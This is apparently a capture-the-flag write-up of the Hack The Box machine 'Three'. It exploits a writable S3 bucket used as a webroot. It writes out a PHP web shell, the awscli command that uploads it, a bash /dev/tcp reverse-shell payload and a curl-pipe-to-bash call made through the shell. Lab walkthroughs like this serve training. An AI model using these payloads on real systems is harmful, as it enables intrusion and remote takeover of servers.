# HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# _**Summary**_ 

* _in this Box will new some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it._ 

# _**NMAP**_
![](/Assets/HTB/THREE/assets/namp.png)

# _**Ports**_ 
_we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser ._ 



![](/Assets/HTB/THREE/assets/web.png)



_By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow ._

_**NOTE** : add ip of machine in **/etc/hosts**_ 

_**like that  echo "10.129.227.248 thetoppers.htb"**_  _**sudo tee -a /etc/hosts**_

![](/Assets/HTB/THREE/assets/gobuster.png)

_we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**_

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE**  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that_ 


![](/Assets/HTB/THREE/assets/s3.png)

_The webpage only contains the perivous JSON._

_We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli**_

_First, we need to configure it using the following command. **aws configure**_

![](/Assets/HTB/THREE/assets/ls.png)

_We can list all of the S3 buckets hosted by the server by using the ls command._

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

_We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage._

_**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution._


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command._

**<?php system($_GET["cmd"]); ?>**

_then make file php_

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

_Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command_


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/shell.png)


![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 ._



**bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1**

_will start net cat listener by command **nc -nvlp 1337**_

_in addtion to will start http local server on port 8000 and host this bash file and we must open http server from directory which have bash file_

_by this command will start http server **python3 -m http.server 8000**_

![](/Assets/HTB/THREE/assets/httpremote.png)

_we will use **curl** to fetch the bash file and do that in browser by this **http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash**_ 

![](/Assets/HTB/THREE/assets/remote1.png)

![](/Assets/HTB/THREE/assets/flag1.png)



## _**Thanks for watching my Blog**_

### _**Mohamed Emam**_

























